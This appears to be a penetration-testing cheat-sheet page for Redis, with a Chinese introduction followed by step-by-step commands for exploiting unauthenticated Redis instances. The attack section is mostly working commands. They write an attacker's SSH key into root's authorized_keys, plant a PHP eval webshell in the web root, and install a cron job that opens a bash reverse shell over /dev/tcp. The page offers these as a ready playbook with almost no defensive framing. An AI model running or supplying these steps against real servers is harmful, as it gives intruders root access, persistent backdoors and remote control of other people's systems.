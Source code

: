 # Redis

<details>

<summary>Introduction</summary>

Redis 是一个开源的内存键值存储数据库，也被称为数据结构服务器。它支持多种数据结构，如字符串、哈希表、列表、集合和有序集合等，提供了丰富的操作命令来操作这些数据结构。Redis 的特点包括高性能、持久化、复制、集群和支持丰富的数据类型等。由于其快速的读写速度和丰富的功能，Redis 被广泛应用于缓存、会话存储、消息队列、排行榜和实时统计等场景中。它也被用作分布式锁和发布/订阅系统的解决方案。

</details>

<table><thead><tr><th width="178">Name</th><th>Redis</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>6379</td></tr><tr><td><strong>RCE</strong></td><td>Feasible</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access</li><li>File Write (GetShell)</li></ul></td></tr></tbody></table>

## Unauthorized Access

{% code title="Environment" %}
```bash
HOST=; PORT=6379; # TARGET HOST INFO
```
{% endcode %}

{% code title="Validation" %}
```
1) telnet $HOST $PORT
2) Enter "INFO"
```
{% endcode %}

If the target host returns Redis-related information, it indicates that unauthorized access is allowed.

## File Write

{% hint style="info" %}
Writing files may affect the server normal operation. Prioritize writing the SSH public key.
{% endhint %}

{% code title="Environment" %}
```bash
HOST=; PORT=6379; # TARGET HOST INFO
```
{% endcode %}

```bash
# (1) SSH public key

ssh-keygen -t rsa
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/id_rsa.pub
cat /tmp/id_rsa.pub | redis-cli -h $HOST -p $PORT -x set crackit
rm /tmp/id_rsa.pub

redis-cli -h $HOST -p $PORT

# In redis CLI
CONFIG SET DIR /root/.ssh/
CONFIG SET DBFILENAME "authorized_keys"
SAVE

ssh -i ~/.ssh/id_rsa root@HOST
redis-cli -h $HOST -p $PORT

# (2) WebShell
CONFIG SET DIR /var/www/html
CONFIG SET DBFILENAME exec.php
SET crackit "\n\n\n\n<?php @eval($_REQUEST['exec']);?>\n\n\n\n"
SAVE

# (3) crontab
CONFIG SET DIR /etc/cron.d
CONFIG SET DBFILENAME reverse_shell
SET crackit "\n\n\n\n* * * * * root bash -i >& /dev/tcp/HOST/PORT 0>&1\n\n\n\n"
SAVE
```

## Graphical Tool

[Another Redis Desktop Manager](https://goanother.com/cn/)

